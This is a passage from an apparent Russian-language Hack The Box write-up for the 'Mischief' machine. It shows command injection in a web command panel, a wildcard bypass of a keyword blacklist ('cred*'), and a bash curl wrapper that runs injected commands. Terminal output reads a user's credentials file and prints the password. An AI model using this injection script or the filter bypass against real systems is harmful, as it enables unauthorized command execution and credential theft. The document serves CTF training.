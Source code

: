 Поэтому я не сильно удивился, когда увидел результат выполнения двух stacked-команд `whoami; echo`:

[![port80-ipv6-browser-6.png]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-6.png" | relative_url }})]({{ "/img/htb/boxes/mischief/port80-ipv6-browser-6.png" | relative_url }})
{: .center-image}

То есть мы преспокойно можем видеть вывод выполненной команды. И хотя это совсем не тот путь, [который задумывался автором машины]({{ page.url }}#icmp-shell), в первом способе угона аккаунта Локи мы будем абьюзить именно эту ошибку конфигурации.

### 1-й способ: /home/loki/credentials
На веб-морде панели выполнения команд есть подсказка о местоположении авторизационных данных пользователя. Но... нельзя так просто взять и написать `cat /home/loki/credentials;`, чтобы получить креды Локи, ведь слово `credentials` в блэклисте:

[![test-waf-blacklist-2.png]({{ "/img/htb/boxes/mischief/test-waf-blacklist-2.png" | relative_url }})]({{ "/img/htb/boxes/mischief/test-waf-blacklist-2.png" | relative_url }})
{: .center-image}

Зато, как видно из этого же скриншота, мы можем обратиться к `credentials` через `credential?` или `cred*`.

Окей, но сначала напишем скрипт, чтобы сделать это не выходя из терминала:
```bash
#!/usr/bin/env bash

# Usage: ./command_execution_panel.sh <IP_STR> <COOKIE_STR>

IP=$1
COOKIE=$2

while :
do
	read -p "mischief> "  CMD
	curl -6 -s -X POST "http://[${IP}]:80/" -H "Cookie: ${COOKIE}" -d "command=${CMD};" | grep -F "</html>" -A 10 | grep -vF -e "</html>" -e "Command was executed succesfully!"
	echo
done
```

```text
root@kali:~# ./command_execution_panel.sh 'dead:beef::250:56ff:feb9:7caa' 'PHPSESSID=a7kss4kl91ts09dq153lekjmjf'
mischief> whoami
www-data

mischief> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

mischief> uname -a
Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```text
root@kali:~# ./command_execution_panel.sh 'dead:beef::250:56ff:feb9:7caa' 'PHPSESSID=a7kss4kl91ts09dq153lekjmjf'
mischief> cat /home/loki/cred*
pass: lokiisthebestnorsegod
```


[//]: # (2019-08-20)